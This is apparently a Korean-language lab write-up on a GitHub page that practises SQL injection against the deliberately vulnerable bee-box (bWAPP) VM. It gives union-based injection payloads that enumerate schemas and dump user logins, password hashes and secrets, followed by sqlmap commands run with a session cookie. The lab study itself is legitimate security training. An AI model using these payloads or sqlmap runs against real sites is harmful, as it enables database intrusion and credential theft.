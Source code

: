 

# bee-box

<center><img src = "https://user-images.githubusercontent.com/76420201/106377985-3783a600-63e4-11eb-924e-731743774575.jpg" width = "70%"></center>
<br>

- 비박스(bee-box)란 웹 어플리케이션에서 자주 발생하는 취약점을 쉽게 테스트할 수 있도록 의도된 환경을 제공한다. 정확한 명칭은 bWAPP이며, 이를 가상머신의 형태로 꾸며놓은 것을 비박스라고 부른다. 
- 취약점 테스팅 서비스는 비박스가 처음으로 등장한 것은 아니며, 대표적으로 DVWA이나 WebGoat(OWASP 프로젝트)와 유사하다. 비박스가 가지는 장점은 실습해볼 수 있는 컨텐츠의 양이 절대적으로 훨씬 더 많다는 것이다. 
- 난이도 조절이 3단계로 가능하므로 조금 더 폭넓은 모의해킹 연습 훈련소로 활용할 수 있다.

<br>

<details markdown="1">
<summary><b>Union SQL Injection</b></summary>
<br>   

```
bWQPP -> SQL Injection(GET/Search)

ID : bee
PW : bug
level : Low

문제: 해당 사이트에서 사용자 정보(이름, 아이디, 패스워드 등)를 탈취하기 
```

---

**Step 1. 기본 동작을 유추**

해당 페이지는 영화 제목을 검색하는 페이지기 때문에 **DB에서 사용자 입력을 키워드로 조회한 결과**를 보여준다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106378432-1c1a9a00-63e8-11eb-924b-c9bdac4f8bfd.gif"></center>

서버 내부 처리(추측)<br>
`select * from movies where title like '%man%'`

---

**Step 2. 인젝션 가능 여부를 확인**

검색란에 작은따옴표`'`를 입력하여 SQL 인젝션이 가능한지 알아본다. 변수에 SQL 인젝션 취약점이 존재하는 경우 SQL오류 메시지를 출력한다.<br>
작은따옴표`'`를 입력하는 이유는 DB에서 `'`로 문자 데이터를 구분하기 때문이다. 따라서 취약점이 존재할 때 `'`를 입력하면 웹 서버에서 DB서버에 질의하는 쿼리에 문법 오류가 발생한다.

서버 내부 처리(추측)<br>
`SELECT * FROM moview WEHRE LIKE ' %man'% '`

<center><img src= "https://user-images.githubusercontent.com/76420201/106378433-1d4bc700-63e8-11eb-960d-4bd979b6dc9b.gif"></center>

오류 메시지에는 DB 서버가 포함되는데, DB서버 종류의 따라 SQL 구문이 다르기 때문에 가장먼서 서버 정보를 확인한다. 오류 메시지를 확인해 보면 해당 DB 서버는 MySQL이라는 정보를 출력하고 있다.

---

**Step 3. UNION 구문을 이용해서 데이터 출력 개수와 위치를 확인**

`or 1=1`이라는 쿼리는 앞 쿼리의 내용과는 상관없이 항상 참이라는 결과를 만드는 쿼리이다. 이 쿼리를 통해서 **어떤 주석 문자를 사용하는지 알아본다**. 맨 마지막에 주석 문자를 붙여주면서 기존 코드의 뒷부분을 주석 처리한다. 

MySQL주석 문자는 `#` 또는 `--`을 사용한다. 따라서 두가지 쿼리를 입력해봐야 한다.
1. `' or 1=1--`
2. `' or 1=1#` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106378861-50dc2080-63eb-11eb-9e03-29994b7f91b3.gif" width = "70%"></center>

첫번째 쿼리에서는 에러가 나고 두번째 쿼리에서 정상적으로 결과가 출력되는걸 확인할 수 있다.

더 자세한 정보를 알아내기 위하여 UNION SELECT 구문을 사용한다. UNION은 SELECT 문이 둘 이상일 때 이를 결합하여 결과를 하나로 반환한다.

두 쿼리의 결과를 하나의 테이블로 합치기 때문에 UNION 구문을 사용하려면 이전 쿼리에서 사용하는 **SELECT 문의 칼럼 수를 일치** 시켜줘야 한다. 칼럼의 수가 일치하지 않는경우 오류 메시지가 나오고, 오류 메시지가 나오지 않을 때까지 칼럼 수를 늘려가며 확인한다.

`' UNION SELECT  1,2,3,4,5#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106379433-59cef100-63ef-11eb-8937-fc0ad93e4445.gif"></center>
<br>

`' UNION SELECT  1,2,3,4,5,6,7#`<br>
칼럼수가 7개가 될 때 정상적으로 결과를 출력한다. 또한 `1,2,3,4,5,6,7`로 입력 하였을때 `2, 3, 5, 4`칼럼의 값만 출력되는 것을 확인할 수 있다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106379432-589dc400-63ef-11eb-8b33-ee22c1813be0.gif" width = "70%"></center>

---

**Step 4. UNION 구문을 이용해서 데이터베이스 정보를 조회**

MySQL 버전을 확인하기 위해서 시스템 변수나 시스템 함수를 활용하여 쿼리를 입력한다.

`' UNION SELECT 1, @@version, 3, 4, 5, 6, 7#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106381745-52fbaa80-63fe-11eb-9503-cf5ac7de52d3.gif" width = "70%"></center>
<br>

- SQL 인젝션으로 데이터베이서의 정보를 파악할 수 있는 변수와 함수

| 시스템 변수 및 함수 | 설명 |
|-------------------|------|
| databases() | 데이터베이스 명을 알려주는 함수|
| user() | 현자 사용자의 아이디 |
| system_user() | 최고 권한 사용자의 아이디 |
| @@version | 데이터베이스 서버의 버전 |
| @@datadir | 데이터베이스 서버가 존재하는 디렉터리 |

---

**Step 5. DB 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)

<center><img src = "https://user-images.githubusercontent.com/76420201/106382105-bbe42200-6400-11eb-8b4d-8e071a2982ec.gif" width = "80%"></center>

MySQL 공식 문서를 참고해보면 information_schema.schemata은 데이터베이스들의 정보를 제공해줍니다. 그중 SCEMA_NAME이라는 컬럼은 schema의 name값을 가지고 있다는 것을 알 수 있습니다.

<br>

`' UNION SELECT 1,SCHEMA_NAME, 3, 4, 5, 6, 7 from information_schema.schemata#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106382451-0f576f80-6403-11eb-988d-3b7a5f36f556.gif" width = "80%"></center>

SQL 인젝션 결과 데이터베이스 서버에 존재하는 모든 데이터베이스 명을 출력했습니다.

---

**Step 6. Table 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)

- where 절을 이용해서 필요한 테이블만 별도로 추출<br>
`' UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' # %'`

- 불필요한 정보를 쿼리 실행 결과에 포함되지 않도록 쿼리를 수정<br>
`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' #` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106382834-7b3ad780-6405-11eb-98b6-cd6a9d131a6b.gif" width = "70%"></center>

출력된 테이블 명 중 users 테이블에 사용자의 계정 정보가 들어있다고 추측할 수 있습니다. users table의 정보를 출력해봅니다.

---

**Step 7. users 테이블의 정보를 조회**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)

`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME, 5, 6, 7 from information_schema.columns where table_schema = 'bWAPP' and table_name = 'users' #`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383003-804c5680-6406-11eb-931d-273a10b9b4de.gif" width = "80%"></center>

칼럼 내용을 확인하려면 페이지에 노출되는 칼럼 순서에 맞춰 확인하고 싶은 칼럼명을 입력한다. 페이지에 노출된 칼럼 수보다 확인하려는 칼럼 수가 많을 때는 concat 함수를 사용하여 칼럼 명을 인자로 입력하면 여러 칼럼의 내용을 볼 수 있습니다.

`' and 1 = 2 UNION SELECT 1, concat(id, login), password, email, secret, 6, 7 from users#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383165-a58d9480-6407-11eb-9628-ac96f0a4bfee.gif" width = "80%"></center>

SQL 인젝션 후 웹 브라우저에서 데이터베이스에 저장된 users 테이블 칼럼의 내용이 확인 가능하다. 그 중 password 칼럼에는 비밀번호의 해시값을 저장한다.

</details>

---

<details markdown="1">
<summary><b>sqlmap을 이용한 공격
</b></summary>
<br>   

전체적인 로직은 위와 같음.

**Step 1. 사용법**

`sqlmap -u [SQL Injection 취약점이 존재하는 페이지의 주소] --cookie = [인증을 전제하는 경우에 SESSIONID가 포함된 쿠키값]`

- 페이지 주소 : http://bee-box/bWAPP/sqli_1.php?title=man&action=search

- cookie 값 :

브라우저 개발도구(F12)의 Storage 확인
![sqlmap1](https://user-images.githubusercontent.com/76420201/106384529-aa097b80-640e-11eb-91c2-17fa5d13baf7.gif)
PHPSESSID = fc13d1925d717ec8ff2ec1f6e6182f34<br>
security_level = 0

---

**Step 2. SQL Injection 공격 가능 여부 확인**

```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0"
```

<center><img src = "https://user-images.githubusercontent.com/76420201/106384672-6d8a4f80-640f-11eb-992a-3b0a7db2a87b.gif" width = "100%"></center>

---

**Step 3. DB 정보 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" --dbs
```

![sqlmap3](https://user-images.githubusercontent.com/76420201/106386065-88ac8d80-6416-11eb-98e2-7c561cb7fe1a.gif)

---

**Step 4. bWAPP 테이블 목록 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" -D bWAPP --tables
```

![sqlmap4](https://user-images.githubusercontent.com/76420201/106386066-89ddba80-6416-11eb-9234-989108405092.gif)

---

**Step 5. Users 테이블 칼럼 정보 조회**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" -D bWAPP -T users --columns
```

![sqlmap5](https://user-images.githubusercontent.com/76420201/106386243-6c5d2080-6417-11eb-9130-6bc277387ddc.gif)

</details>

---

Security Level을 올리게 되면 SQL Injection 공격이 통하지 않음